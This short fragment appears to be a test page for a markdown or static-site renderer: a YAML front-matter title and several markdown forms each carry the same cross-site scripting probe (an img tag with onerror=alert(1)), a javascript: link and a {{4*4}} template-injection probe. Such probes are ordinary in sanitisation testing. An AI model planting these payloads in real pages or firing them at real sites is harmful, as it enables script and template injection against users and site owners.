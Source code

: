 ```yaml
---
group: Intro
weight: 2
title: '"><img src=/ onerror=alert(1)> {{4*4}}'
---
```

<javascript:alert(1)>["><img src=/ onerror=alert(1)> {{4*4}}](javascript:alert(1))

`"><img src=/ onerror=alert(1)> {{4*4}}`"><img src=/ onerror=alert(1)> {{4*4}}